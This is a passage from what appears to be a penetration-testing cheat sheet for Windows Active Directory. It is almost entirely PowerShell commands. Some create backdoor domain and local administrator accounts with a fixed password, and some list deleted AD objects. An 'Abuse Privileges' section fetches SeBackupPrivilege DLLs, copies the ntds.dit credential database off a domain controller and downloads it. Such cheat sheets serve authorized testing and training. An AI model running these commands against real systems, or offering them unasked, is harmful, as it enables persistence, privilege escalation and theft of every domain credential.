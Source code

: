 Create new domain user:

```
PS > net user j1v37u2k3y Passw0rd! /ADD /DOMAIN
Or
PS > New-ADUser -Name j1v37u2k3y -SamAccountName j1v37u2k3y -Path "CN=Users,DC=megacorp,DC=local" -AccountPassword(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Enabled $true
```

Create new local user and add him to local admins:

```
PS > net user testuser Passw0rd! /add
PS > net localgroup administrators testuser /add
```

List deleted AD objects (AD recycle bin):

* [activedirectorypro.com/enable-active-directory-recycle-bin-server-2016/](https://activedirectorypro.com/enable-active-directory-recycle-bin-server-2016/)
* [blog.stealthbits.com/active-directory-object-recovery-recycle-bin/](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/)

```
PS > Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
PS > Get-ADObject -LDAPFilter "(objectClass=User)" -SearchBase '<DISTINGUISHED_NAME>' -IncludeDeletedObjects -Properties * |ft
```



### Misc

* [activedirectorypro.com/active-directory-user-naming-convention/](https://activedirectorypro.com/active-directory-user-naming-convention/)





# Abuse Privileges




## SeBackupPrivilege



### SeBackupPrivilege

* [github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\j1v37u2k3y\Documents\ntds.dit -Overwrite
download ntds.dit
```
